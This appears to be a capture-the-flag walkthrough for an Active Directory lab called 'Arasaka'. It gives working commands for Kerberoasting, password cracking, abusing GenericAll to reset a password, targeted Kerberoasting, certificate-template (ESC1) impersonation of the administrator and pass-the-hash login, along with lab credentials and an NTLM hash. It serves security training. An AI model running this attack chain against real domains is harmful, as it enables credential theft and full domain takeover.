+++
author = "Blue Pho3nix"
title = "Arasaka"
categories = ["hack-smarter"]
tags = [ "Easy", "Active Directory", "OSCP Prep" ]
image = "img/hack-smarter.png"
+++


# Solution

## Finding Credentials

`nmap` shows SMB is open, but we don't get anywhere with any credentials. It also gives us the domain and FQDN.

```
mkdir nmap && sudo nmap -Pn -p- -vv <your-box-ip> -oN nmap/tcp-ports --min-rate 10000 && ports=$(grep '^[0-9]' nmap/tcp-ports  | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sCV -Pn -p $ports -vv <your-box-ip> -oA nmap/tcp-scripts-versions --min-rate 10000
```

```shell
PORT      STATE    SERVICE       REASON          VERSION
53/tcp    open     domain        syn-ack ttl 126 Simple DNS Plus
88/tcp    filtered kerberos-sec  no-response
135/tcp   open     tcpwrapped    syn-ack ttl 126
139/tcp   filtered netbios-ssn   no-response
389/tcp   filtered ldap          no-response
445/tcp   open     tcpwrapped    syn-ack ttl 126
593/tcp   open     ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
3268/tcp  filtered globalcatLDAP no-response
3389/tcp  open     tcpwrapped    syn-ack ttl 126
|_ssl-date: 2025-09-25T02:22:33+00:00; -2s from scanner time.
| rdp-ntlm-info:
|   Target_Name: HACKSMARTER
|   NetBIOS_Domain_Name: HACKSMARTER
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hacksmarter.local
|   DNS_Computer_Name: DC01.hacksmarter.local
|   Product_Version: 10.0.20348
|_  System_Time: 2025-09-25T02:21:32+00:00
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
| Issuer: commonName=DC01.hacksmarter.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-20T02:51:46
| Not valid after:  2026-03-22T02:51:46
| MD5:   c15b:e7bf:300c:7994:c7c0:c1a5:2fcd:928c
| SHA-1: 97ac:c4b4:fb84:3417:e8fb:e9b1:a5ae:4357:bb1f:12e9
| -----BEGIN CERTIFICATE-----
| MIIC8DCCAdigAwIBAgIQN1NTSOO69Y5K973diAX2ITANBgkqhkiG9w0BAQsFADAh
| MR8wHQYDVQQDExZEQzAxLmhhY2tzbWFydGVyLmxvY2FsMB4XDTI1MDkyMDAyNTE0
| NloXDTI2MDMyMjAyNTE0NlowITEfMB0GA1UEAxMWREMwMS5oYWNrc21hcnRlci5s
| b2NhbDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBALcO/no+r6u9RWZv
| dKtmcvdUyPHST3C9uBPDm7vtdNuWXpWe4TGtDH2uFGq+m3aCy4qWrp74RkGSaYml
| 03IgqSBgo4EK+636edSS8yavRyJINTtJBRstbWh45U7Li00KRdng2TQG5tWBq97r
| lMnN2gMSJsOX1UgaDnf09pcsQn/6cDzHeWkPf64BjOYd2jHxul+0HWU03i4KLtNo
| gpVENdAPxMKqPIQzZjKdoXu9zrhHRo6ayA3FBtF/UlOJp9ul+bMcv4V3morc4Kwi
| Yyg1e4NBIikUteIxYjfVXZHdZnJr16Oe0U1QxR5fwZbhAX9fJ44ORxIzItcjQmJZ
| yyV89VkCAwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQw
| MA0GCSqGSIb3DQEBCwUAA4IBAQCLf577kCMAmhyYLnbPBku9hgjRnaifcXM9Ydg9
| 4bdopKAMMmH0fo4Ot0Ito0J91151Ikdv42gQM7UM2nGuwSFFXvnDDuTqiRPC70e3
| Qrnxd4A2mEemsNGdpceiJQ2jZCeX6Qn7SZD0kV/aSXP2olGBzUTUqghlWN8wAnQb
| TgSe7Fti2zQtqKvXfDAgqgKCoeKi38uAnWk3Yt7u600baJAv+mbk/VOkyB80L6tD
| uAooN8gmXwZxxqZCYFR2veZXQ4mihPz+9Tt1ynfO+tepGe2UsYKQLaAcaFLlG5NX
| lcqR+mD8m6CUR+UPFsBDYH1hHOHyRq51fk42yK8VFP7lC/Lz
|_-----END CERTIFICATE-----
60236/tcp filtered unknown       no-response
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: mean: -2s, deviation: 0s, median: -2s
|_smb2-time: Protocol negotiation failed (SMB2)
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 34011/tcp): CLEAN (Timeout)
|   Check 2 (port 53964/tcp): CLEAN (Timeout)
|   Check 3 (port 57551/udp): CLEAN (Timeout)
|   Check 4 (port 48474/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:22
Completed NSE at 21:22, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:22
Completed NSE at 21:22, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:22
Completed NSE at 21:22, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.69 seconds
           Raw packets sent: 15 (660B) | Rcvd: 5 (220B)
```

We add the domain and FQDN to `/etc/hosts`.

```bash
echo '<your-box-ip> DC01.hacksmarter.local hacksmarter.local' | sudo tee -a /etc/hosts
```



We're given starting [credentials](https://courses.hacksmarter.org/courses/f618f837-3060-40a3-81cf-31beeaadf37a/take/arasaka-#user-content-scenario).

```
faraday:hacksmarter123
```


We use [GetUserSPNs](https://wadcoms.github.io/wadcoms/Impacket-GetUserSPNs/) and get the Kerberos service ticket for alt.svc.

```bash
GetUserSPNs.py hacksmarter.local/faraday:'hacksmarter123' -dc-host DC01.hacksmarter.local  -request
```




We `crack the hash using` `john`.

```bash
john alt.svc-hash --wordlist=/usr/share/wordlists/rockyou.txt
```




## Foothold

We run [bloodhound](https://github.com/SySS-Research/Single-User-BloodHound) and find that alt.svc has GenericAll on Yorinobu.

```
bloodhound-ce-python -d hacksmarter.local -u 'alt.svc' -p 'babygirl1' -ns <your-box-ip> -c all --zip

```




We change Yorinobu’s password. Then we see that they can log in because they are part of the Remote Management Users group. But, more importantly, they have GenericWrite on Soulkiller.svc.

```
net rpc password "YORINOBU" "newP@ssword2025" -U "hacksmarter.local"/"alt.svc"%'babygirl1' -S "DC01.hacksmarter.local"
```









## Privilege Escalation

Soulkiller.svc is part of the Certificate Service DCOM Access group.



We use [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) to print the hash of Soulkiller.svc, then we crack the hash with john. 

```
python /path/to/targetedKerberoast.py -v -d 'hacksmarter.local' -u 'YORINOBU' -p 'newP@ssword2025'
```

```
john soulkiller.svc-hash --wordlist=/usr/share/wordlists/rockyou.txt
```






We use certipy to find that the AI_Takeover template is vulnerable to ESC1. With this, we can get the administrator's NTLM hash.

```
certipy find -dn hacksmarter.local -dc-host DC01.hacksmarter.local -vulnerable -u 'Soulkiller.svc' -p 'MYpassword123#' -ns <your-box-ip> -stdout
```

```
Certificate Authorities
  0
    CA Name                             : hacksmarter-DC01-CA
    DNS Name                            : DC01.hacksmarter.local
    Certificate Subject                 : CN=hacksmarter-DC01-CA, DC=hacksmarter, DC=local
    Certificate Serial Number           : 1DBC9F9ECF287FB04FDE66106578611F
    Certificate Validity Start          : 2025-09-21 15:32:14+00:00
    Certificate Validity End            : 2030-09-21 15:42:14+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : HACKSMARTER.LOCAL\Administrators
      Access Rights
        ManageCa                        : HACKSMARTER.LOCAL\Administrators
                                          HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
        ManageCertificates              : HACKSMARTER.LOCAL\Administrators
                                          HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
        Enroll                          : HACKSMARTER.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : AI_Takeover
    Display Name                        : AI_Takeover
    Certificate Authorities             : hacksmarter-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-09-21T16:16:36+00:00
    Template Last Modified              : 2025-09-21T16:16:36+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : HACKSMARTER.LOCAL\Soulkiller.svc
                                          HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : HACKSMARTER.LOCAL\Administrator
        Full Control Principals         : HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
        Write Owner Principals          : HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
        Write Dacl Principals           : HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
        Write Property Enroll           : HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
    [+] User Enrollable Principals      : HACKSMARTER.LOCAL\Soulkiller.svc
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

We visit the [certipy wiki](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc1-enrollee-supplied-subject-for-client-authentication) and review the ESC1 instructions. We need the administrator's SID, so we grab it with certipy.

```
certipy account -u 'Soulkiller.svc@hacksmarter.local' -p 'MYpassword123#' -dc-ip '<your-box-ip>' -user 'administrator' read
```



```
certipy req \
    -u 'Soulkiller.svc@hacksmarter.local' -p 'MYpassword123#' \
    -dc-ip '<your-box-ip>' -target 'DC01.hacksmarter.local' \
    -ca 'hacksmarter-DC01-CA' -template 'AI_Takeover' \
    -upn 'administrator@hacksmarter.local' -sid 'S-1-5-21-3154413470-3340737026-2748725799-500'
```



We get the administrator's NTLM hash, and login to get the flag.

```
certipy auth -pfx 'administrator.pfx' -dc-ip '<your-box-ip>'
```



```
evil-winrm -u 'administrator' -H 4366ec0f86e29be2a4a5e87a1ba922ec -i <your-box-ip>
```

